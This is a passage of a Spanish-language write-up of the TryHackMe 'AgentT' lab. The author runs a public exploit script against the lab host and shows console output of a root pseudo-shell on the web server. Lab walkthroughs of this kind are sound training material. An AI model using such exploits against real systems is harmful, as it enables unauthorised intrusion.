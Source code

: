 Lo abrimos en nuestro editor preferido y le echamos un ojo. El cacharro tira de *python3* y al ejecutarlo nos pedirá que le pasemos la dirección del host. Le damos amor.


```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/AgentT]
└─$ python3 49933.py         
Enter the full host url:
http://10.10.105.111/

Interactive shell is opened on http://10.10.105.111/ 
Can't acces tty; job crontol turned off.
$ 
```

Dentro. El tema en este caso, según la docu, es que tenemos una *pseudo shell*, es decir, una shell con ciertas *características* particulares ... pero menos da una piedra. A ver qué podemos rascar.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/AgentT]
└─$ python3 49933.py         
Enter the full host url:
http://10.10.105.111/

Interactive shell is opened on http://10.10.105.111/ 
Can't acces tty; job crontol turned off.
$ whoami
root

$ pwd
/var/www/html

$ ls -la
total 760
drwxr-xr-x 1 root root   4096 Mar  7 22:03 .
drwxr-xr-x 1 root root   4096 Mar 30  2021 ..
-rw-rw-r-- 1 root root    199 Mar  5 22:33 .travis.yml
-rw-rw-r-- 1 root root  22113 Mar  5 22:33 404.html
-rw-rw-r-- 1 root root  21756 Mar  5 22:33 blank.html
drwxrwxr-x 2 root root   4096 Mar  5 22:33 css
-rw-rw-r-- 1 root root   3784 Mar  5 22:33 gulpfile.js
drwxrwxr-x 2 root root   4096 Mar  5 22:33 img
-rw-rw-r-- 1 root root  42145 Mar  7 21:48 index.php
drwxrwxr-x 3 root root   4096 Mar  5 22:33 js
-rw-rw-r-- 1 root root 642222 Mar  5 22:33 package-lock.json
-rw-rw-r-- 1 root root   1493 Mar  5 22:33 package.json
drwxrwxr-x 4 root root   4096 Mar  5 22:33 scss
drwxrwxr-x 8 root root   4096 Mar  5 22:33 vendor

$ cd ..

$ pwd
/var/www/html

$ cd /

$ pwd
/var/www/html

$

```
